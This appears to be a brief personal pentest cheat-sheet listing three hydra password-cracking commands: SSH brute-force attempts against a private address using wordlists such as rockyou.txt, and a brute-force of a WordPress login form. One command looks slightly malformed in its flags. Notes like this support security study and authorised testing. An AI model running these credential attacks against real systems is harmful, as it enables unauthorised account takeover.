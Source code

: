 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#password-cracking
- hydra -l user -P pass.txt -t 10 172.21.0.0 ssh -s 22

- hydra -l users.txt -p /usr/share/wordlists/rockyou.txt -t 172.21.0.0 ssh -s 22

- hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'